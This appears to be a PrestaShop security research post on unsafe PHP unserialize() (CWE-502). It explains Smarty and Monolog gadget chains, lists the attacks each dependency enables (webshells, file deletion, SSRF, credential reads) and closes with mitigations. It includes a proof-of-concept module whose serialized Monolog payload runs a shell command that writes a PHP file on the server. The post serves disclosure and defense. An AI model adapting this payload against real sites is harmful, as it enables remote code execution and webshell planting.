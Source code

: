 ```yaml
---
layout: post
title: "[CWE-502] Exploring the perils of unsafe deserialize() in PrestaShop (part 1)"
categories: research
author:
- 202-ecommerce.com
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,CWE-502"
severity: "critical (10)"
---
```


The deserialization of instantiated objects in PHP involved the trigger of the magic methods `__construct()`, `__wakeup()` and `__destruct()`. 

A Smarty, Monolog or Symfony library's [Gadget](https://en.wikipedia.org/wiki/Gadget_(computer_science)) hydratation with a malicious payload followed by its deserialization can be exploited in multiple malicious critical usages.

Until this present research, we did not have any known gadget on our ecosystem that can justify a CVE against `unserialize` usage.

## Summary

* **Published at**: 2023-08-28
* **Platform**: All CMS espacially PrestaShop.
* **Weakness**: [CWE-502](https://cwe.mitre.org/data/definitions/502.html)
* **Severity**: critical (10)

## Unsafe PHP method deserialize() (part 1)

### How it works?

Let's take an example. The `Smarty` template engine cache process is scheduled to create a lock file at the beginning and remove it at the end during the destruct of `Smarty`'s object. 

A Gadget of this object, a sort of "mockup" of the original class, can be crafted with a target file as parameter. Then, it will remove the target during the deserialization of the Gadget. `Smarty` cache class can be hijacked to delete any files of the vulnerable application.

Please read this article to know more about [unsafe unserialize() in PHP](https://www.sjoerdlangkemper.nl/2021/04/04/remote-code-execution-through-unsafe-unserialize/).


### Proof of concept

Similarly, the popular library `Monolog` can be hijacked to execute remote code. Let’s explain it in a POC.

We created a simple module to demontrate the danger of a deserialization. Please note that any php script that include PrestaShop core file `config/config.inc.php` load vendors libraries and consequently `Monolog` (PS 1.7+) or others libraries.

**FOR EDUCATIONAL PURPOSES ONLY. DO NOT USE THIS SCRIPT FOR ILLEGAL ACTIVITIES. THE AUTHOR IS NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE.**

1. Create a module

```php
// modules/mymodule/mymodule.php

class Mymodule
{
...
    public function getContent()
    {
        $payload = 'O:37:"Monolog\Handler\FingersCrossedHandler":3:{s:13:"passthruLevel";i:0;s:6:"buffer";a:1:{s:4:"test";a:2:{i:0;s:45:"echo \'<?php echo "♥" . (25-125);\' > ./a.php";s:5:"level";N;}}s:7:"handler";O:29:"Monolog\Handler\BufferHandler":7:{s:7:"handler";N;s:10:"bufferSize";i:-1;s:6:"buffer";N;s:5:"level";N;s:11:"initialized";b:1;s:11:"bufferLimit";i:-1;s:10:"processors";a:2:{i:0;s:7:"current";i:1;s:6:"system";}}}';

        $unsafeDeserialization = unserialize($payload);

        return var_dump($unsafeDeserialization, true);
    }
...
```

2. Go to the configuration page of the module.

3. This piece of code will put an `a.php` file in the designated directory of PrestaShop.


### Malicious usage through PrestaShop dependencies

Malicious usages of PrestaShop via common libraries are:
* remote code execution (RCE) to put a webshell
* Server Side Request Forgery (SSRF) to aggress other website with a clean IP
* File Deletion (FD) to remove an htaccess and expose logs or sensitive data
* File Writer (WF) to put a webshell
* Files read reader (RF) to read sensitive data like mysql password
* SQL injections (SQLi)
* Technical data leaks (Info)

|PrestaShop dependency|Malicious usage|
| ------|-----|
|Smarty|SSRF and FD|
|Monolog|RCE and FW|
|Symfony|FD, FW, and RCE|
|Doctrine|RCE and FW|
|TCPDF|FD|
|Guzzle|FW, Info and RCE|

Source: [PHP Generic Gadget Chains](https://github.com/ambionics/phpggc/tree/master/gadgetchains)

NB 1: This list is not exhaustive. Module dependencies can also include other hijackable classes.

NB 2: Several PrestaShop core or modules configurations are stored in database as serialized strings. In chain, a SQL injection can also be exploited to inject malicious serialized string that will be triggered during the deserialization.


### How to prevent this vulnerability?

As you understand, `unserialize($_GET['param'])` (or `$_POST`, `$_COOKIE`, ...), each untrusted data unserialized is a critical vulnerability. 

* A strict validation of input data is absolutely essential!
* Use json serialization instead as soon as possible.
* Disable the desarialization of classes via `unserialize($args, ['allowed_classes' => false])`. That's not perfect but better than nothing.


